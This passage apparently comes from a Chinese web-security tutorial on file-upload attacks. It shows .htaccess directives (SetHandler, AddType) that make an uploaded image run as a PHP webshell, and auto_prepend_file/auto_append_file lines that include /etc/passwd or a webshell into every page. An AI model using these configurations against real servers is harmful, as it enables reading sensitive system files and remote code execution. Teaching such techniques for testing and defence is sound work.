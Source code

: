 此时，常用的的两个 .htaccess 指令如下：

- SetHandler 指令

我们可以使用 SetHandler 指令强制将所有匹配的文件被 PHP 处理器处理并解析：

```php
# 将images.png 当做 php 执行
<FilesMatch "images.png">
    SetHandler application/x-httpd-php
</FilesMatch>
```

- AddType 指令

也可以使用 AddType 指令将给定的文件扩展名映射到 PHP 的内容类型：

```php
# 将 .jpg 当做 php 文件解析
AddType application/x-httpd-php .png
```

这两种配置都可以使我们上传的非 PHP 类型的 Webshell 被当做 PHP 直接解析：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146119122-72196078-05b1-430b-a890-c3c0c300557c.png#alt=img)

### 文件包含

#### 本地文件包含

在本目录或子目录中有可解析的 PHP 文件时，可以通过 php_value 来设置 auto_prepend_file 或者 auto_append_file 配置选项来让所有的 PHP 文件自动包含一些敏感文件或恶意文件（如WebShell），来触发文件包含。

下面 .htaccess 分别通过这两个配置选项来包含 /etc/passwd，并访问同目录下的 index.php文件。

- auto_prepend_file

```php
php_value auto_prepend_file /etc/passwd
```

- auto_append_file

```php
php_value auto_append_file /etc/passwd
```

这两个配置选项用于设置访问一个 PHP 文件时，在该 PHP 文件解析之前会先自动包含并解析的文件。如下图当我们访问 index.php 时，便会自动将 /etc/passwd 包含进来：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146119137-16d58280-d15a-42fa-9bda-0a1bb25c5aa6.png#alt=img)

在实际的文件上传利用中，如果目标环境的当前目录中存在至少一个 PHP 文件且上传黑名单没有限制 .htaccess 文件的话，我们便可以上传包含以上指令的 .htaccess 文件，将我们需要读取的敏感文件包含进来并读取。

同理，我们也可以让 index.php 文件包含一个含有 Webshell 的文件来 Getshell，可用于图片马的解析：

```php
php_value auto_prepend_file images.png
或:
php_value auto_append_file images.png
```
